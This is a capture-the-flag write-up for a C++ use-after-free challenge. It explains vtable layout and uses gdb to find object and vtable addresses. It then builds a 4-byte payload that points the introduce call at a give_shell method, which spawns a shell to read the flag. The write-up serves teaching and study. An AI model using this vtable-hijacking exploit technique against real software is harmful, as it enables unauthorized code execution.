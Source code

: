 # Uaf

Let's take a look at the code:

```c++
class Human{
    private:
        virtual void give_shell(){
            system("/bin/sh");
        }
    protected:
        int age;
        string name;
    public:
        virtual void introduce(){
            cout << "My name is " << name << endl;
            cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
    public:
        Man(string name, int age){
            this->name = name;
            this->age = age;
        }
        virtual void introduce(){
            Human::introduce();
            cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
    public:
        Woman(string name, int age){
            this->name = name;
            this->age = age;
        }
        virtual void introduce(){
            Human::introduce();
            cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
            case 1:
                m->introduce();
                w->introduce();
                break;
            case 2:
                len = atoi(argv[1]);
                data = new char[len];
                read(open(argv[2], O_RDONLY), data, len);
                cout << "your data is allocated" << endl;
                break;
            case 3:
                delete m;
                delete w;
                break;
            default:
                break;
        }
    }

    return 0;	
}
```

There is a use-after-free bug there. Since we are able to free the object (option 3), allocate data (option 2) and use the object (option 1), we control a cycle of allocations/deallocations which can probably be exploited by the fact that we also control the contents of the allocated data. Perhaps we can replace the free'd objects in memory somehow.

In `C++`, there's the concept of a `virtual method`: it's any method that can be overwritten in a child class of a base class, maintaining both methods so the correct method to call can be resolved by the language at runtime using a `virtual table`.

Each class containing a `virtual method` will have a `virtual table`, which is simply a list of pointers to the methods it may have to call, whether they are from the base or the child classes.

What we have to do here, then, is shift the pointer to Man's virtual table so that the call to the `introduce` entry actually calls the `give_shell` entry.

Let's take a look at what happens before the calls to `introduce`:

```bash
$ gdb uaf
>>> disas main
[...]
0x0000000000400fcd <+265>:	mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fd1 <+269>:	mov    rax,QWORD PTR [rax]
0x0000000000400fd4 <+272>:	add    rax,0x8
0x0000000000400fd8 <+276>:	mov    rdx,QWORD PTR [rax]
0x0000000000400fdb <+279>:	mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fdf <+283>:	mov    rdi,rax
0x0000000000400fe2 <+286>:	call   rdx
0x0000000000400fe4 <+288>:	mov    rax,QWORD PTR [rbp-0x30]
0x0000000000400fe8 <+292>:	mov    rax,QWORD PTR [rax]
0x0000000000400feb <+295>:	add    rax,0x8
0x0000000000400fef <+299>:	mov    rdx,QWORD PTR [rax]
0x0000000000400ff2 <+302>:	mov    rax,QWORD PTR [rbp-0x30]
0x0000000000400ff6 <+306>:	mov    rdi,rax
0x0000000000400ff9 <+309>:	call   rdx
[...]
```

The first 7 lines are for `m->introduce()`, while the last 7 are for `w->introduce()`.
What's going on here?

Well, the first line puts the object into `rax`. The first member of the object, in this implementation, is the pointer to the vtable. The second line puts the vtable into `rax`. It then adds `0x8` to it because that's the offset between the first member of the vtable and `introduce`.

The requested method is then put into `rdx` and the object itself is moved into `rdi` for the `this` pointer. Then rdx, `introduce`, is called.

Sounds good.

Let's put a few breakpoints and figure out important addresses:

```bash
>>> b *main+265
Breakpoint 1 at 0x400fcd
>>> b *main+288
Breakpoint 2 at 0x400fe4
>>> r
1. use
2. after
3. free
1
Breakpoint 1, 0x0000000000400fcd in main ()
>>> x $rbp-0x38
0x7fffffffdaf8:	0x00614c50
>>> x 0x00614c50
0x614c50:	0x00401570
>>> c
Breakpoint 2, 0x0000000000400fe4 in main ()
>>> x $rbp-0x30
0x7fffffffdb00:	0x00614ca0
>>> x 0x00614ca0
0x614ca0:	0x00401550
```

We have the addresses of Man (`0x00614c50`), Woman (`0x00614ca0`) and their vtables (`0x00401570` and `0x00401550`).

Now let's try to free the objects, allocate 4 bytes and see what happens to the registers before the call to `read`, as one of them should hold the destination parameter. We can also know our registers of interest beforehand by knowing our [calling convention](http://agner.org/optimize/calling_conventions.pdf), which in this case is `64 bit Linux`.

We now know the parameters are going to be put into `rdi`, `rsi`, `rdx`, [...], in this order. The second parameter of `read` is the destination, thus we need to check `rsi`.

```bash
$ mkdir /tmp/uaf
$ echo -en "\x00\x00\x00\x00" > /tmp/uaf/bytes
$ gdb uaf
>>> b *main+399
Breakpoint 1 at 0x401053
>>> r 4 /tmp/uaf/bytes
1. use
2. after
3. free
3
1. use
2. after
3. free
2
Breakpoint 1, 0x0000000000401053 in main ()
>>> p/x $rsi
$1 = 0x614ca0
```

Wait... But this is the address of the Woman object!
Our allocator has taken advantage of the most recently free'd chunk in memory to store our data, which means we can overwrite the pointer to Woman's vtable.
Let's keep going and allocate data again to see whether we can also change the Man object.

```bash
>>> c
your data is allocated
1. use
2. after
3. free
2
Breakpoint 1, 0x0000000000401053 in main ()
>>> p/x $rsi
$2 = 0x614c50
```

Now we can also overwrite the pointer to Man's vtable.
Let's check what's in Man's vtable:

```bash
>>> x/4x 0x00401570
0x401570 <_ZTV3Man+16>:	0x0040117a	0x00000000	0x004012d2	0x00000000
>>> x 0x0040117a
0x40117a <_ZN5Human10give_shellEv>:	0xe5894855
>>> x 0x004012d2
0x4012d2 <_ZN3Man9introduceEv>:	0xe5894855
```

But what is it that we have to write to the pointer to the vtable in order to redirect execution to `give_shell`?
If we write `0x00401570`-`0x8` (`0x00401568`) to `0x614c50`, the address of the vtable + `0x8` is going to point to `give_shell` and we can get our flag:

```bash
$ echo -en "\x68\x15\x40\x00" > /tmp/uaf/payload
$ ./uaf 4 /tmp/uaf/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
sh-4.4$ cat flag
```

Also notice that we'll have to exit twice to come back to the menu loop, because Woman's call was also redirected to Man's give_shell entry. :)
